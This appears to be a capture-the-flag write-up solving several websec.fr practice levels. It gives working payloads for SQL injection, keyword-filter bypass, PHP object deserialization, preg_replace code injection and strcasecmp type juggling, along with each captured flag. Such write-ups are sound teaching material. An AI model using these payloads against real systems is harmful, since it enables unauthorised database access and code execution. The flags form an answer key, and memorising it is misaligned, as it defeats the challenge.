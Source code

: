 **[Level01](http://websec.fr/level01/)**  
Using GROUP_CONCAT
```sql
-1 UNION SELECT 'a', GROUP_CONCAT(password) FROM users;--
```
```
WEBSEC{Simple_SQLite_Injection}
```
**[Level02](http://websec.fr/level02/)**  
It's same Level01 but filtered by the application using preg_replace()
```php
$searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
$injection = preg_replace ('/' . $searchWords . '/i', '', $injection);
```
It replace 'union', 'order', 'select', 'from', 'group', 'by' to '', so we try
```sql
-1 UUNIONNION SSELECTELECT 'a', GGROUPROUP_CONCAT(password) FFROMROM users;--
```
```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```
**[Level03](http://websec.fr/level03/)**  
It's using <i>password_hash</i> and <i>password_verify</i>, but the hash string is special, it start with <i>7c00</i> and it use sha1 with <i>fa1se</i> instead of <i>false</i>, so the function will return raw 20 character binary format
```python
import hashlib
import string
i = 0;
while True:
    hash_object = hashlib.sha1(str(i).encode('utf-8')).hexdigest()
    if (hash_object.startswith("7c00")):
        print(i)
        break
    i = i + 1
```
```
WEBSEC{Please_Do_not_combine_rAw_hash_functions_mi}
```

**[Level04](http://websec.fr/level04/)**  
We can Deserialization by create same class
```php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
$newSQL = new SQL();
$newSQL->query = "SELECT password AS username FROM users"; // because it take $row['username']
echo base64_encode (serialize($newSQL));
?>
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIjtzOjQ6ImNvbm4iO047fQ
```
Change cookie <i>leet_hax0r</i> we got
```
WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```

**[Level05](http://websec.fr/level05/)**  
It use preg_replace, so we try to include 'flag.php'
http://websec.fr/level05/index.php?a=flag.php
```html
%24%7Binclude_once%09%24_GET%5Ba%5D%7D+%24%7Bflag%7D
```
```
WEBSEC{Writing_a_sp3llcheckEr_in_php_aint_no_fun}
```

**[Level17](http://websec.fr/level17/)**  
Notice that strcasecmp will return Null if 1 parameter is an array, so we try
```
flag[]=a&submit=Go
```
```
WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}
```
